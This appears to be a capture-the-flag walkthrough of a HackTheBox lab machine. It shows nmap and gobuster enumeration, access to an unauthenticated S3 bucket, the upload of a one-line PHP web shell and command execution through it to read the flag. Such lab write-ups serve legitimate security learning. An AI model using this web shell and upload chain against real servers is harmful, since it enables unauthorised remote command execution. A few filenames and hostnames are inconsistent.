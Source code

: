 `nmap -sv {target_ip}`

```
┌──(kali㉿kali)-[~]
└─$ nmap -sV 10.129.75.118 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-26 15:26 EST
Nmap scan report for thetoppers.htb (10.129.75.118)
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds
```
`sudo nano /etc/hosts`

Add:

`10.129.75.118 thetoppers.htb`

`gobuster vhost -w SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb`

Found dns:

`s3.thetroppers.htb`

add to etc/hosts
`10.129.75.118 s3.thetoppers.htb`

```
┌──(kali㉿kali)-[~]
└─$ aws configure                 
AWS Access Key ID [****************a]: a
AWS Secret Access Key [****************a]: a
Default region name [a]: a
Default output format [a]: a
```

```
┌──(kali㉿kali)-[~]
└─$ aws s3 ls s3://thetroppers.htb

Could not connect to the endpoint URL: "https://s3.a.amazonaws.com/thetroppers.htb?list-type=2&prefix=&delimiter=%2F&encoding-type=url"
```

```
┌──(kali㉿kali)-[~]
└─$ aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb
                           PRE images/
2022-11-26 15:04:11          0 .htaccess
2022-11-26 15:04:11      11952 index.php
```

```
cd Desktop
sudo nano shell.php
file: <?php system($ GET['cmd']); ?>
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ aws s3 --endpoint=http://s3.thetoppers.htb cp shell.php s3://thetoppers.htb/shell.php
upload: ./shell.php to s3://thetoppers.htb/shell.php 
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb           
                           PRE images/
2022-11-26 15:04:11          0 .htaccess
2022-11-26 15:04:11      11952 index.php
2022-11-26 15:39:59         31 shell.php
```

```
http://thetoppers.htb/shell2.php?cmd=ls
images index.php shell.php shell2.php 
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ curl http://thetoppers.htb/shell2.php?cmd=cat+../flag.txt 
a980d99281a28d638ac68b9bf9453c2b
```







